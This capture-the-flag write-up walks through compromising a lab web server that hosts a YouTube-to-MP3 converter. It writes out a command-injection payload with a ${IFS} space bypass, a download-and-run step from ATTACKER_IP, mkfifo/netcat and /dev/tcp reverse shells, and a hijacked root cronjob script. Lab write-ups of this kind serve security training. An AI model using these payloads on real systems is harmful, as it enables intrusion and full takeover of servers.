| Difficulty |
| ---------- |
|   Medium   |

---

### [ What is the name of the secret folder? ]

As always, we start things off with a full `nmap` scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- -oN full_nmap 10.10.77.218
```

**Results:**

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
| ssh-rsa 
[REDACTED]
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBKsS7+8A3OfoY8qtnKrVrjFss8LQhVeMqXeDnESa6Do
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there are only **2** ports open: **22** (SSH) and **80** (HTTP)

Let's take a look at the HTTP webserver:

> 

We have a simple web page where we can input a Youtube video ID. The page will then supposedly convert the target video to MP3 format for us to download.

Let's run a `gobuster` scan to enumerate any hidden directories.

```
gobuster dir -u http://10.10.77.218/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt,js -t 50
```



From the results, we find the name of the secret folder: **/admin**

---

### [ What is the user to access the secret folder? ]

Let's visit the **/admin** subdirectory:



Looks like we need some credentials. I tried common credentials like **admin:admin**, but those did not work.

Let's move on and do some manual enumeration.

Looking at the source code of the web page, we can see that it loads in another javascript file called **main.js**:



**main.js** actually contains the functionality of the page on the client-side:



We can see that the page takes in the user input and appends it to "https://www.youtube.com/watch?v=". A fair assumption to make is that this url will then be passed to some internal program that is running on the server-side, which actually does the conversion to MP3. Of course, as the machine does not have access to the Internet, the conversion should never work as the machine will not be able to reach Youtube.

At this stage, the first thought that came to my mind was: **Command Injection**.

If the user input is being passed to a command-line program and is being executed on the shell-level, then perhaps we can inject some of our own OS commands to be run!

To check whether the input is indeed being passed to a command-line program, let's try to input '**test**':



We get an interesting error message in the response. If we do a Google search of the error, we find that the error actually comes from an open-source program called [youtube-dl](https://github.com/ytdl-org/youtube-dl).



From the Github page, we confirm that this program is indeed a command-line program! This means that command injection is most likely the way to go.

Let's try injecting our own commands. We'll start off by trying to inject the `id` command. 

*(More payloads can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection))*

Let's try a basic bypass using the `;` symbol: 

```
test;id;
```



Nice it works! :smile: *(Note: instead of `;`, we can also use* `|`*)*

Now we can try setting up a **reverse shell** so that we can gain an initial foothold into the machine. 

*(Payload used is from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))*

I saved the following payload into a file onto my local machine:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```



I then set up a simple HTTP server so that we can download the file onto the target machine. We can then inject the following commands into the web page:

```
test;wget http://ATTACKER_IP:8000/shell.sh;chmod +x shell.sh;./shell.sh;`
```

This will have the target machine download our reverse shell script, make it executable, then execute it.



Hmmm there seems to be a problem with our payload. If we look closely at the error message, it seems that there is an argument error with our `wget` command. Most likely, the **spaces** in our payload are being stripped before being sent to the command-line.

To bypass the space stripping, we can use `${IFS}` to replace the spaces.

---

**From [here](https://bash.cyberciti.biz/guide/$IFS):** 



---

Now our payload becomes:

```
test;wget${IFS}http://ATTACKER_IP:8000/shell.sh;chmod${IFS}+x${IFS}shell.sh;./shell.sh;`
```

We send in the payload...



And we're in! :smiling_imp:

There is a directory called **admin** in **/var/www/html**:



There is a hidden file called **.htpasswd** in this **admin** directory:



This file contains the **user** that can access the **/admin** subdirectory on the web server:



The user is: **itsmeadmin**

*Note: there's no need to crack the password hash as it is not needed to complete this challenge.*

---

### [ What is the user flag? ]

The **user flag** can be found in the same directory:



---

### [ What is the root flag? ]

Now that we're in, let's find a way to escalate our privileges.

Doing some digging around the filesystem, I found an interesting file called **clean.sh** in **/var/www/html/tmp**:



This file is owned by **www-data** and is also writable. Let's look at the contents:



Just a simple `rm` command...

From my past experiences with CTF challenges, these sort of 'clean-up' scripts are normally run periodically as a **cronjob**. Let's check **/etc/crontab** to see if clean.sh is being run as a cronjob:



Nothing here...

With that said, it is possible to set up cronjobs without including them in the /etc/crontab file. Hence, let's use a nifty tool called [pspy](https://github.com/DominicBreuker/pspy/blob/master/README.md) to see if this is the case. `pspy` allows us to snoop on processes without the need for root permissions.



Sure enough, after a minute has passed, we see that the **clean.sh** was indeed run! Furthermore, it was run by user with UID=0, aka **root**!

Since clean.sh is writeable by us, all we have to do is replace it with a **reverse shell script**:

```
echo 'bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1' > clean.sh
```

Now set up a netcat listener, sit back and wait.



We're now root!

The root flag can be found in **/root**:


